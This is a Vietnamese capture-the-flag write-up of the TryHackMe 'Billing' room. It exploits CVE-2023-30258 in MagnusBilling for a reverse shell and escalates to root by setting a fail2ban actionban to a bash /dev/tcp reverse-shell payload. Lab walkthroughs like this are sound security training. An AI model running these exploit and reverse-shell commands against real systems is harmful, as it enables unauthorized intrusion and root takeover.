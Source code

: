# [THM] Billing write-up

- IP: 10.10.69.178

## Recon
Đầu tiên chúng ta sẽ sử dụng công cụ nmap để dò quét các cổng và dịch vụ đang được mở
![Scan nmap](./img/scan-nmap.png)
- `sudo nmap -T5 -p- --min-rate=1000 --max-retries=1 <ip-address>` quét tất cả các cổng trên địa chỉ IP với tốc độ nhanh (1000 gói tin/giây), chỉ thử lại 1 lần khi cổng không phản hồi, nhằm phát hiện nhanh các cổng mở.
- `nmap -sT -sV -sC -p22,80,3306,5038 10.10.69.178` thực hiện quét cổng TCP kết nối đầy đủ (-sT), xác định phiên bản dịch vụ (-sV), chạy các script mặc định (-sC), và chỉ quét các cổng 22, 80, 3306, 5038 trên địa chỉ IP 10.10.69.178.

![Giao diện web khi truy cập địa chỉ IP với port 80](./img/web.png)
Giao diện web khi truy cập địa chỉ IP với port 80

Sau khi kiếm tra và phát hiện ra file README.md. Trong file này cho ta thấy web đang sử dụng MagnusBilling 7
![ManusBilling version](./img/readme.png)

Tiếp theo sẽ sử dụng công cụ FFUF để tìm ra các thư mục ẩn 
![Scan thư mục](./img/ffuf.png)
`ffuf -u "http://10.10.69.178/mbilling/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt`

Khám phá các thư mục trên và khi tôi truy cập vào /mbilling/lib, tôi nhận thấy sự hiện diện của **Icepay**. Dựa trên tìm hiểu của tôi thì tôi thấy rằng CVE-2023-30258, Icepay dễ bị khai thác và lỗ hổng này được biết là ảnh hưởng tới **MagnusBilling vesions 6.x và 7.x**
![Icepay dir](./img/icepay.png)
![Description-CVE](./img/description-cve.png)

## Exploit(CVE-2023-30258)
Tôi đã tìm kiếm PoC và thực hiện khai thác

Thiết lập **Netcat listener** trên kali với port 1234
> nc -lvnp 1234

Sau đó thực thi script python với câu lệnh (file script magnus_billing.py)
> python magnus_billing.py -t http://10.10.69.178/mbilling/ -lh 10.21.113.26 -lp 1234

Sau khi thực thi đã nhận được **reverse shell** để truy cập vào máy chủ với tư cách là user **asterisk**
![reverse shell](./img/reverse-shell.png)

## user.txt
Đã tìm kiếm được flag đầu tiên nằm trong file user.txt
![user flag](./img/user-flag.png)

## Privilege Escalation
Chạy lệnh `sudo -l` để kiểm tra quyền sudo cho người dùng hiện tại.
![Kiểm tra quyền sudo](./img/sudo%20-l.png)
Kết quả cho thấy người dùng có thể thực thi **fail2ban-client** với tư cách là root mà không cần mật khẩu

Dựa vào bài viết [Fail2Ban – Linux Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/) đã kiểm tra quyền thực thi của file `iptables-multiport.conf` nhưng với user hiện tại chỉ có quyền read đối với file này.
![Quyền flie](./img/quyền-config.png)

Kiểm tra file `iptables-multiport.conf` có 1 actionban. Vì Fail2ban tự động thực hiện lệnh này khi ban 1 IP nhưng không thể sửa trực tiếp ở file này được nên ta cần thực hiện câu lệnh
> sudo /usr/bin/fail2ban-client set **JAIL** action **ACT** actionban "PAYLOAD"

![Actionban](./img/config-actionban.png)

Ta cần xác định **JAIL** ở đây là gì. Từ kết quả ta thấy sshd đang hoạt động.
![Check Jail](./img/check-jail.png)

Những thông tin trên có thể tạo ra câu lệnh sau để set actionban
> sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"

Cuối cùng chạy câu lệnh `sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1`
![Ban IP](./img/ban-ip.png)

Khi đó ở kali lắng nghe trên port 4321 có thể truy cập vào root shell
![Root shell](./img/root-shell.png)

## root.txt
Tìm kiếm và lấy được root flag được chứa trong file root.txt

![Root flag](./img/root-flag.png)